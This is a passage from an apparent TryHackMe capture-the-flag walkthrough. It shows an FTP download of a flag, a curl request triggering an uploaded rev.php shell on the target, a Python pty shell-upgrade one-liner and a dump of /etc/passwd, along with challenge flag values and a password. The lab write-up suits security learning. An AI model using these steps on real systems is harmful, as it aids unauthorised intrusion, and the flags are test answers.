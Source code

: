 ```bash
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Sep 15  2021 .
drwxr-xr-x    5 0        0            4096 Sep 15  2021 ..
-rw-r--r--    1 1001     1001           31 Sep 16  2021 flag
226 Directory send OK.
ftp> get flag
local: flag remote: flag
227 Entering Passive Mode (10,10,2,57,196,102).
150 Opening BINARY mode data connection for flag (31 bytes).
226 Transfer complete.
31 bytes received in 0.00 secs (12.3717 kB/s)
ftp> exit
221 Goodbye.
:~# 
```

```bash
:~# cat flag
THM{3_i_was_the_more_deceived}
```

![image](https://github.com/user-attachments/assets/52f1a7cc-a34f-40eb-ba42-f8b8593d062a)

![image](https://github.com/user-attachments/assets/e0f26af0-7ef1-4375-a883-db977d93c46c)

![image](https://github.com/user-attachments/assets/c9fcf31e-17d8-4e18-b776-c45830980e33)


![image](https://github.com/user-attachments/assets/b7673009-f33c-449c-b672-deb03d85739a)

<p>Don't forget that the KEQehFDWwuQbMbKW password does not work for WebAnno.</p>

![image](https://github.com/user-attachments/assets/b6d57a76-ab03-4318-baef-0b8363a2fd46)

![image](https://github.com/user-attachments/assets/849a8a1a-f91b-4096-8803-d691b64ef387)

```bash
curl http:/TargetIP:8000/repository/project/0/document/1/source/rev.php
...
```

<br>

<p>1.5. Flag 4<br>
<code>THM{4_the_murder_of_gonzago}</code></p>

```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null


www-data@66505608bd11:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```